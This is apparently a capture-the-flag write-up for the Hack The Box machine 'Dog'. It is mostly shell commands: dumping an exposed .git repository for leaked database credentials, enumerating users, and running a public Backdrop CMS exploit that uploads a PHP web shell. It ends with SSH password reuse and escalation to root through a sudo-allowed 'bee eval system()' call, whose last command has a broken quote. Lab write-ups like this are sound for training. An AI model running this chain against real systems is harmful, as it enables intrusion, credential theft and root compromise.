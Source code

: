 #HTB/WriteUp/Machine

nmap -sV -sC -A 10.129.77.72

found .git directory
and
robots.txt

http://10.129.77.72/?q=about
found domain dog.htb
echo '10.129.77.72 dog.htb'|sudo tee -a /etc/hosts

git clone https://github.com/lijiejie/GitHack.git && cd GitHack
python3 GitHack.py http://dog.htb/.git
settings.php
mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop

salt
aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ

hmm, no git commit history, try another tool
githacker --url http://127.0.0.1/.git/ --output-folder result
commit:
todo: customize url aliases.  reference:https://docs.backdropcms.org/documentation/url-aliases
probably will find something interesting there
also note author
Author: root <dog@dog.htb>

lets find out backdrop version in git sources
grep -R version .
./core/themes/basis/basis.info:version = BACKDROP_VERSION
./core/themes/basis/basis.info:version = 1.27.1

searchsploit backdrop 
nothing interesting
lets google backdrop cve rce
found POC
https://www.exploit-db.com/exploits/52021
curl https://www.exploit-db.com/raw/52021 > poc.py

python poc.py http://dog.htb
well, payload is generated and now we need to gain admin creds, lets try default ones
we'll grep source codes
hmmm
./core/includes/password.inc:      $hash = _password_crypt('md5', $password, $stored_hash);

hash is md5?...
examine sources and google, asked deepseek and it seems there is no default password
lets try pass from mysql for user dog and root
didn't work :(

tried forgot password
dog@dog.htb
root@dog.htb
admin@dog.htb
it tells invalid email
tried 
dog
root
admin

and lets check blog posts authors
dogBackDropSystem
yep! unable send email
BackDropJ2024DS2024
but it didn't work either

python BackDropScan.py --url http://dog.htb --userslist /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --userenum
log in to cms with found usernames at /?q=user/login
finally found working one:
tiffany@dog.htb:BackDropJ2024DS2024

python poc.py http://dog.htb
aunpack shell.zip
apack shell.tar.gz shellBackDropScan
http://dog.htb/?q=admin/installer/manual
upload shell.tar.gz

open shell
http://dog.htb/modules/shell/shell.php

list users
ls /home
johncusack

reuse the password:
ssh johncusack@dog.htb
BackDropJ2024DS2024

sudo -l
read /usr/local/bin/bee help and run
sudo /usr/local/bin/bee --root=/var/www/html/ eval "system(cat /root/root.txt');"